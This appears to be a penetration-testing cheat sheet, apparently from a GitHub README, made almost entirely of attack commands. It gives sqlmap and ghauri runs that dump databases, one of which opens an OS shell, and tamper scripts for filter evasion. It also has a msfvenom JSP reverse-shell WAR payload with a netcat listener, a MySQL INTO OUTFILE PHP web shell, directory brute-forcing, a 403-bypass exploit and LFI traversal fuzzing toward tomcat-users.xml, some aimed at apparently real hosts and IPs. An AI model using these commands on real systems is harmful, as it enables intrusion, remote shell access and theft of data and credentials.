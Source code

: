 ## SQLMAP

sqlmap -u "http://10.17.32.212/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dump-all -p list[fullordering]

ghauri -u "http://www.abc.in/ErrorPage.aspx?enc=+AenvvvnbvntfgBByOwZTA==" --batch --dbs --level 3

python sqlmap .py -r Request.txt -p param --ignore-code 401 --level 5 --risk 2 --batch --os-shell  (for shell)

sqlmap -r request3.txt -p username,password --ignore-code 401 --proxy http://127.0.0.1:8080

sqlmap -u http://testsite.com/page.php?id=1 --dbs

sqlmap -u https://testsite.com/page.php?id=7 -D <database_name> --dump-all

sqlmap -r request.txt --dbs --risk=3 --level=5    (To scan all parameters in the request)


#### If you found a blind sql or any sql then use this command:

sqlmap -r request3.txt -p username,password --ignore-code 401 --proxy http://127.0.0.1:8080 --dbs

#### Then if database are listed browse to them and list down tables:

sqlmap -r request3.txt -p username,password --ignore-code 401 --proxy http://127.0.0.1:8080 -D databasename --tables

#### Another set of commands

sqlmap -r request3.txt -p column_code,type  --ignore-code 401 --level 5 --risk 3 --force-ssl --mobile --dbs


### Windows command SQLmap

python sqlmap.py  -r C:\Users\Dell\Desktop\request3.txt -p username,emailid --ignore-code 401 --level 5 --risk 3 --force-ssl --mobile --batch --dbs 

python sqlmap.py  -r C:\Users\Dell\Desktop\request3.txt -p UserId,login_type --ignore-code 401 --proxy http://127.0.0.1:8080 -D PROD_QPORT_2 --tables

#### Using tamper script
python sqlmap.py  -r C:\Users\Dell\Desktop\request3.txt -p rowID --ignore-code 401 --level 5 --batch --tamper space2plus,space2comment,charencode

#### To browse through directories we use
python sqlmap.py  -r C:\Users\Dell\Desktop\request3.txt -p title,content,author --level 2 --ignore-code 401 -D abcde --tables

#### To browse through tables we use
python sqlmap.py  -r C:\Users\Dell\Desktop\request3.txt -p email --level 2 --ignore-code 401 -D abcde -T user_details --columns

#### To dump the data
python sqlmap.py  -r C:\Users\Dell\Desktop\request3.txt -p email --level 2 --ignore-code 401 -D abcde -T user_details --dump

### RCE (create exploit war file)

msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.6.29 LPORT=9999 -f war > shell.war 

nc -nlvp 9999    

### Shell upload using mysql (If web)
```
SELECT "<html><body><?php echo system($_GET['command']); ?></body></html>" into outfile "/usr/share/tomcat9-root/"
```

## Directory Bruteforce Tools

gobuster dir -u https://google.in/abc/documents -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt (dir enum)
          
          gobuster dns -u google.com  (for finding subdomains)

dirsearch -u https://google.in/abc/ -w /usr/share/wordlists/rockyou.txt

####  403 Bypass tool

bash 403-bypass.sh -u https://abc.in/.htaccess --exploit

#### Fuzzing using LFI

wfuzz -c -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt http://49.186.149.89:8081/sh/download?file=../../../../../../../../../../../opt/tomcat/FUZZ/tomcat-users.xml | grep -v "0 L"


